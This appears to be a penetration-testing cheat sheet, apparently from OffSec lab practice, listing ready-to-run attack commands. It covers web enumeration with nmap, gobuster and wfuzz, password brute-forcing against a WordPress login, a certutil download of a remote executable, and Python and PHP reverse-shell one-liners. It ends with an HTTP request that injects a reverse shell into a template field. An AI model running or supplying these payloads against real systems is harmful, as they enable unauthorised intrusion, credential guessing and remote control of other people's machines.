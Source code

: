 ### NMAP
nmap -p80 --script=http-enum 172.16.80.1

nmap -p80 --script=http-methods --script-args http-methods.url-path='/wp-includes/' $IP

nmap -p80 -sV --script http-wordpress-enum offsecwp

### CEWL

sudo cewl -d 2 -m 5 -w ourWordlist.txt www.MegaCorpOne.com

ls -sa /usr/bin | sed 's/[0-9]*//g' | sed -r 's/\s+//g' |sort -u > $HOME/binaries-wordlist.txt

### GOBUSTER


gobuster dir -u $URL -w /usr/share/wordlists/dirb/common.txt -t 5 -b 301

gobuster dns -d megacorpone.com -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 30

### CERTUTIL

certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe


### HAKRAWLER

sudo apt-get install -y hakrawler
which hakrawler

echo "https://www.megacorpone.com/" > urls.txt
cat urls.txt |./hakrawler


### WFUZZ

#### Discover files:

export URL="http://offsecwp:80/FUZZ"
echo $URL

wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt --hc 301,404,403 "$URL"

#### Discover Directories:

export URL="http://offsecwp:80/FUZZ/"
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt --hc 404,403,301 "$URL"

#### Parameter Discovery:

export URL="http://offsecwp:80/index.php?FUZZ=data"
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt --hc 404,301 "$URL"

#### Fuzzing Parameter Values:

wfuzz -c -z file,/usr/share/seclists/Usernames/cirt-default-usernames.txt --hc 404,301 http://offsecwp:80/index.php?fpv=FUZZ

One might need to adjust excluded response code.

wfuzz -c -z file,/usr/share/seclists/Fuzzing/XSS/XSS-BruteLogic.txt  --hh 0  http://offsecwp:80/index.php?xss=FUZZ


#### Fuzzing POST Data:

wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt --hc 404 -d "log=admin&pwd=FUZZ" http://offsecwp:80/wp-login.php

export URL="http://offsecwp:80/wp-login.php"
wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt --hc 404 -d "log=admin&pwd=FUZZ" --hh 7201 "$URL"


### SHELLS

#### Python reverse shell:

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

#### PHP Reverse Shell:

php -r '$sock=fsockopen("10.0.0.1",80);exec("/bin/sh -i <&3 >&3 2>&3");'

php -r '$sock=fsockopen("10.0.0.1",80);shell_exec("/bin/sh -i <&3 >&3 2>&3");'

php -r '$sock=fsockopen("10.0.0.1",80);system("/bin/sh -i <&3 >&3 2>&3");'

php -r '$sock=fsockopen("10.0.0.1",80);passthru("/bin/sh -i <&3 >&3 2>&3");'

php -r '$sock=fsockopen("10.0.0.1",80);popen("/bin/sh -i <&3 >&3 2>&3", "r");'




<?php

passthru("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.49.194\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")'");

?>



POST /api/php HTTP/1.1

Host: 192.168.194.101

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0

Accept: application/json, text/plain, */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/json;charset=utf-8

Content-Length: 285

Origin: http://192.168.194.101

Connection: close

Referer: http://192.168.194.101/


{"template":"\n\npassthru(\"python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\\"192.168.49.194\\\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\\\"/bin/bash\\\")'\");\n\n","vars":{}}


